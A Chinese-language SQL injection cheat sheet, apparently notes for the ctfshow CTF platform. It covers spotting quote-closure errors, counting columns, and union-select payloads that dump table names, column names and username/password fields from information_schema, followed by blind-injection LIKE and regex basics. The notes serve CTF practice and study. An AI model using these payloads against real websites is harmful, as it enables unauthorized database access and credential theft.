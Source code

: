 ```
最终结论：如果我们在确定这是字符型注入的时候，使用双引号如果引发了报错，说明就是双引号的字符型。

假设是双引号闭合，多了一个双引号就会报错
sql语句：select * from cms where id = "33"";
```

3.判断查询列数，order by, group by



4.查询回显位置 -1' union select 1,2,3 --+

## 1.union 注入

查询表名

```
2' union select 1,group_concat(table_name) from information_schema.tables where table_schema=database()--+
```

```
group_concat(table_name)/**/from/**/information_schema.tables/**/where/**/table_schema=database()
```

查询列名

```
2' union select 1,group_concat(column_name) from information_schema.columns where table_name='ctfshow_user2' --+
```

查询内容

```
2' union select 1,group_concat(id,username,password) from ctfshow_user2 --+
```

## 2.盲注

### sql 内置函数

%在 sql 中统配 N 个字符

_: 统配一个字符

like……%进行模糊匹配

regexp 进行正则匹配

```
正则表达式匹配的字符类
.：匹配任意单个字符。
^：匹配字符串的开始。
$：匹配字符串的结束。
*：匹配零个或多个前面的元素。
+：匹配一个或多个前面的元素。
?：匹配零个或一个前面的元素。
[abc]：匹配字符集中的任意一个字符。
[^abc]：匹配除了字符集中的任意一个字符以外的字符。
[a-z]：匹配范围内的任意一个小写字母。
[0-9]：匹配一个数字字符。
\w：匹配一个字母数字字符（包括下划线）。
\s：匹配一个空白字符。
```
